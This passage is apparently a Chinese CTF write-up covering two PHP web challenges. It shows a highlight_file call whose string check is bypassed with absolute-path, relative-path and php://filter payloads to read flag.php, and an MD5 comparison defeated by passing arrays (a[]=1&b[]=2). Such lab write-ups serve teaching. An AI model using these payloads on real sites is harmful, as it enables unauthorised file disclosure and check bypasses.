 



### 4、highlight_file 路径

**（Web 96）**

highlight_file 的参数可以是路径的

```php
<?php
highlight_file(__FILE__);

if (isset($_GET['u'])) {
    if ($_GET['u'] == 'flag.php') {
        die("no no no");
    } else {
        highlight_file($_GET['u']);
    }
}
?>
```

if 语句只比对字符串，highlight_file 可以写路径，故 payload 有多种解法：

```php
/var/www/html/flag.php              绝对路径
./flag.php                          相对路径
php://filter/resource=flag.php      php伪协议
```





### 5、md5 比较缺陷

**（Web 97）**

PHP 中 hash 比较是存在缺陷的，MD5 无法处理数组，如果传入数组则返回 NULL，两个 NULL 是强相等的

```php
<?php
    if ($_POST['a'] != $_POST['b']) {
    if (md5($_POST['a']) === md5($_POST['b'])) {
        echo $flag;
    } else {
        print 'Wrong.';
    }
}
?>
```

_不同数据强相等_

payload:`a[]=1&b[]=2`

**如果进行了string强制转类型后，则不再接受数组**
